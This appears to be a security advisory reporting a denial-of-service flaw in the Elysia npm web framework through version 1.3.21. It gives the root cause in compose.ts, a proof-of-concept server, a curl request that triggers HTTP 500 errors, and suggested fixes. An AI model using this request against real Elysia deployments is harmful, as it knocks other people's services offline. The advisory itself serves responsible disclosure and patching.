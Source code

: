 # vuln-elysia-1.3.21-dos

## Summary

Elysia (npm) is vulnerable to **Denial of Service (DoS)** due to unsafe dynamic code generation in the request handler composition.  
Through version **1.3.21 (latest tested)**, a crafted schema property or malformed input can trigger a crash inside `composeHandler` in `src/compose.ts`.  
This causes the server to throw an unhandled exception and return **HTTP 500 Internal Server Error** for valid requests, effectively allowing remote attackers to perform a DoS.

- **Vulnerability Class:** Improper Input Validation → Crash/DoS (CWE-20, CWE-248)  
- **Severity:** Medium/High (CVSS ~7.5)  
- **Exploitability:** Any attacker able to send crafted HTTP requests to an affected server can trigger this vulnerability.  

---

## Details

- **Package:** `elysia` (npm)  
- **Repository:** [github.com/elysiajs/elysia](https://github.com/elysiajs/elysia)  
- **Affected File:** [src/compose.ts](https://github.com/elysiajs/elysia/blob/main/src/compose.ts)  
- **Affected Function(s):** `composeHandler`, `compile`  
- **Affected Versions:** ≤ 1.3.21 (latest tested)  
- **Root Cause:** Dynamic handler generation assumes `schema.$defs[schema.$ref]` exists. Crafted input can bypass assumptions and cause a `TypeError`.

### Relevant code excerpt (compose.ts)
```ts
const properties =
  schema.properties ?? schema.$defs[schema.$ref].properties
```

If `schema.$defs` or `schema.$ref` is undefined due to attacker-controlled schema, the code throws:  
```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
```

---

## Proof of Concept (PoC)

### Vulnerable Server (poc-elysia-dos.mjs)
```js
import { Elysia, t } from 'elysia'

const app = new Elysia()
  .get('/hello', () => 'Hello World')
  .get('/dos', () => 'SAFE', {
    query: t.Record(t.String(), t.String())
  })
  .listen(3000)

console.log("Server listening on http://localhost:3000")
```

### Run the server
```bash
bun poc-elysia-dos.mjs
```

### Test normal route
```bash
curl http://localhost:3000/hello
# -> Hello World
```

### Trigger DoS
```bash
curl -i http://localhost:3000/dos?x=1
```

**Expected result:**  
The server crashes internally and responds with **500 Internal Server Error**.  
Clients see Bun’s error overlay HTML with stack trace:

```
TypeError: undefined is not an object (evaluating 'schema.$defs[schema.$ref]')
    at composeHandler (.../elysia/src/compose.ts:657:33)
    ...
```

### Demonstration
![DoS Attack Demonstration](poc-elysia-dos.gif)

---

## Attack Vector

- Any attacker who can send crafted requests to endpoints that use `t.Record` or similar schemas can reliably trigger a crash.  
- The server continues running, but valid requests fail until restart → effectively **Denial of Service**.

---

## Impact

- **Availability loss** for services using Elysia.  
- Remote attacker can crash endpoints at will.  
- In production, repeated exploitation can render the service unusable.  

**Vulnerability type:** Denial of Service (DoS) via malformed schema parsing  
**Affected users:** All applications using Elysia with schemas like `t.Record(...)` or other constructs that reach `schema.$defs`.

---

## Suggested Fix

- Add guards before dereferencing `schema.$defs[schema.$ref]`.  
- Reject malformed schema definitions early.  
- Add test cases for schema edge cases (e.g., empty `$ref`, missing `$defs`).

---

## Disclosure
- **Status:** Under responsible disclosure  
- **Disclosure Date:** 04 September 2025  
- **Reporter:** Manopakorn Kooharueangrong (manop55555)
